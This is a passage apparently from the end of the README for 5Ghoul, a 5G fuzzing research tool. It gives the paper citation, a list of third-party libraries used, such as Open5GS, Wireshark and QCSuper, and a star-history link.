  * 5G Core Network - [Open5GS](https://github.com/open5gs/open5gs) (Open Source)

<div align="center">


</div>

## 📝 Citing 5Ghoul
If you use 5Ghoul in your research, you can cite our paper:

```
@article{5ghoul2025,
  title={5GHOUL: Unleashing Chaos on 5G Edge Devices via Stateful Multi-layer Fuzzing},
  author={Garbelini, Matheus E and Shang, Zewen and Luo, Shijie and Chattopadhyay, Sudipta and Sun, Sumei and Kurniawan, Ernest},
  journal={IEEE Transactions on Dependable and Secure Computing (TDSC)},
  year={2025},
  publisher={IEEE}
}
```

## 🙏 Third-Party Libraries & Acknowledgements

* [OpenAirInterface](https://gitlab.eurecom.fr/oai/openairinterface5g) - EUROCOM's 5G software used in 5Ghoul;
* [Open5GS](https://github.com/open5gs/open5gs) - 5G Core network used in 5Ghoul;
* [Wireshark](https://gitlab.com/wireshark/wireshark) - Internal 5Ghoul engine for decoding and filtering of downlink and uplink 5G packets;
* [QCSuper](https://github.com/P1sec/QCSuper) - Logging internal firmware logs & captures from Qualcomm modems via QMI interface;
* [QuickType](https://quicktype.io/) - Automatically generate C++ code to parse configuration files from `configs` folder;
* [SWIG](https://www.swig.org/) - Automatically generate Python and Golang bindings for internal WDissector library;
* [Folly](https://github.com/facebook/folly) - Meta's Library that provides a variety of software components such as synchronized queues, windowed histogram, etc.
* [TinyProcess](https://gitlab.com/eidheim/tiny-process-library) - Platform independent C++ library for starting/stopping processes;
* [ImGUI](https://github.com/ocornut/imgui) - C++ Library for Graphical User Interface;
* [cxxopts](https://github.com/jarro2783/cxxopts) - C++ Library that parses & handles command line arguments of `5g_fuzzer`;

## 🌟 Star History

[](https://star-history.com/#asset-group/5ghoul-5g-nr-attacks\&Date)
